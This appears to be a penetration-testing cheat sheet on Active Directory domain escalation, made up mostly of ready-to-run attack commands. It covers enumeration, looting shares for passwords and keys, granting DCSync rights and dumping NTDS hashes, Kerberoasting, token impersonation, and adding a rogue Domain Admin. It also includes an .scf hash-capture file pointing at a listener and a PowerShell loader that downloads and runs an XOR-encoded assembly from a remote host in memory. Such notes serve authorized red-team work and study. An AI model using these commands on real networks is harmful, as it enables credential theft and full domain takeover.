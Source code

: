 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) & [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu) (remote graphical view)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
# Install bloodhound
sudo apt-get update && sudo apt-get install bloodhound python3-pip && git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket && pip3 install .
```

```bash
#enum4linux
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>

#bloodhound-python
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all

#ldapdomaindump
pip install ldapdomaindump && ldapdomaindump -u '<domain>\<user>' -p '<pass>' <target>

#ldapsearch
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---

## **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

### Open shares \(SMB, NFS, FTP, etc\)

SMB readable shares

```bash
# ManSpider
git clone https://github.com/blacklanternsecurity/MANSPIDER && cd MANSPIDER && pipenv --python 3 shell
pip install -r requirements.txt
./manspider.py <target> -d <domain> -u <user> -p <pass> -f passw user admin account network login logon cred 
./manspider.py <target> -d <domain> -u <user> -p <pass> -c password -e xlsx
./manspider.py <target> -d <domain> -u <user> -p <pass> -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg txt cfg conf config 

# smbmap
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]

smbget -rR smb://<target>/<share>/ -U <user
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`

```

SMB writable shares

- upload @<scf_name>.scf file => Responder/NTLMrelayx

> Note: add a @ at first letter of the filename will place the .scf file on the top of the shared folder

```bash
[Shell]
Command=2
IconFile=\\<listener_ip>\share\<ico_name>.ico
[Taskbar]
Command=ToggleDesktop
```


NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## ACLs

Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## Kerbrute AS-REP

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/users.txt <target>
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Impersonation Token 

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
